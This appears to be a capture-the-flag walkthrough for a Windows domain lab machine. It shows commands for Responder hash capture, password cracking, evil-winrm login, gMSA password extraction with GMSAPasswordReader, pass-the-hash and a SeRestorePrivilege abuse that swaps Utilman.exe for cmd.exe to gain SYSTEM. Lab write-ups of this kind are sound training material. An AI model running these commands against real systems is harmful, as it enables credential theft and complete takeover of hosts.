


We can try running responder and visiting our ip:
```
sudo responder -I tun0 -A
```

We get a hash back:


We can crack this with hashcat:

We got california:

We can login with evil-winrm:
```
evil-winrm -i 192.168.180.165 -u enox -p 'california'
```
We find a todo.txt in desktop of enox:


We can check for gmsa with powerview:
```
. .\PowerView.ps1
```
```
Get-ADServiceAccount -Filter * -Properties * | Select SamAccountName,PrincipalsAllowedToRetrieveManagedPassword,msDS-ManagedPasswordInterval,ServicePrincipalNames
```


Now we can use GMSAPasswordReader.exe:
```
.\GMSAPasswordReader.exe --accountname 'svc_apache'
```

rc4_hmac hash is the same as the NT hash.


Now login using evil-winrm:
```
evil-winrm -i 192.168.183.165 -u svc_apache$ -H '4FC1682833B24CF2225248D67DF7E618'
```


We have SeRestorePrivilege.

Now using this page:
https://github.com/gtworek/Priv2Admin

```
ren "C:/Windows/System32/Utilman.exe"  Utilman.old
```
```
ren "C:/Windows/System32/cmd.exe" Utilman.exe
```
Now we can get to the lockscreen with rdesktop:
```
rdesktop 192.168.180.254
```

Now press `win + U`


We have nt authority\system.


